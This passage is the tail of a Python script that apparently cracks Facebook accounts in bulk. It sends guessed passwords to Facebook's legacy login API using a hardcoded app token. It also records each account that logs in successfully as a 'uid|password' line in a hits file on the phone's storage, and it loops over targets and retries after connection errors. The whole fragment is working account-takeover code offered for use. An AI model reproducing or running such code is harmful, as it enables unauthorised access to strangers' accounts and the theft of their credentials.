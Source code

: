                     'authorization':'OAuth 350685531728|62f8ce9f74b12f84c123cc23437a4a32',
                    'content-type':'application/x-www-form-urlencoded',
                    'x-fb-friendly-name':'authenticate'
                }
                                url = 'https://b-api.facebook.com/method/auth.login'
                                po = requests.post(url,data=data,headers=head,allow_redirects=False).text
                                q = json.loads(po)
                                if 'session_key' in q:
                                        uid=str(q['uid'])
                                        try:
                                                okk=open('/sdcard/JARED-OK.txt','r').read()
                                                if uid in okk:pass
                                                else:
                                                        print('\r\r\033[1;32m [JARED-OK] '+str(uid)+' | '+pas+'\033[1;90m')
                                                        open('/sdcard/JARED-OK.txt','a').write(uid+'|'+pas+'\n')
                                                        oks.append(ids)
                                                        break
                                        except:
                                                print('\r\r\033[1;32m [JARED-OK] '+uid+' | '+pas+'\033[1;97m')
                                                open('/sdcard/JARED-OK.txt','a').write(uid+'|'+pas+'\n')
                                                oks.append(ids)
                                                break
                                else:
                                        continue
                        loop+=1
                except requests.exceptions.ConnectionError:
                        time.sleep(10)
                except Exception as e:
                        pass
 
try:
	menu()
except requests.exceptions.ConnectionError:
	print('No internet connection ...')
	exit()
except:exit()
 

